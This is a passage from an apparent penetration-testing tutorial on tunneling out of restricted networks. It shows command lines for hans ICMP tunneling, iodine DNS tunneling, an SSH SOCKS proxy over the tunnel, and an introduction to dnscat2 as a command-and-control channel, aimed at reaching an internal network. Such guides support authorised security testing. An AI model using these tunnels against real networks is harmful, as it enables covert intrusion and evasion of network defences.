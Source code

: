 The `-v` flag is for verbosity, the `-f` flag is to run in foreground
and the `-s` flag’s value is the server’s ip on the newly created tun
interface.

Client side:

`./hans -f -c <server_ip> -p P@ssw0rd -v`

After successful connection the client should be directly visible at
1.1.1.100:

<div>

    # ping 1.1.1.100
    PING 1.1.1.100 (1.1.1.100) 56(84) bytes of data.
    64 bytes from 1.1.1.100: icmp_seq=1 ttl=65 time=42.9 ms

</div>

Now you can use this machine as gate into the internal network. Use this
machine a default gateway or connect to a management interface
(ssh/tsh/web shell).

### DNS tunneling

If any WAN traffic is blocked but external host names are resolved then
there’s a possibility of tunneling traffic via DNS queries. You need a
domain registered for this technique to work. [This
manual](http://dev.kryo.se/iodine/wiki/HowtoSetup) might help you with
setting up your name server.

#### Iodine

If so happens that you got root access on the server you can try
[iodine](http://code.kryo.se/iodine/). It works almost like hans icmp
tunneling tool - it creates a pair of tun adapters and tunnels data
between them as DNS queries. Server side:

`iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com`

Client side:

`iodine -f -P P@ssw0rd tunneldomain.com -r`

Successful connection will yield direct client visibility at address
1.1.1.2. Note, that this tunneling technique is quite slow. Your best
bet is to use a compressed ssh connection over the resulting connection:

`ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080`

#### Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) establishes C&C channel
over recursive DNS queries. This tool doesn’t require root/administrator
access (works both on windows and linux). It also supports port
forwarding. Server side:

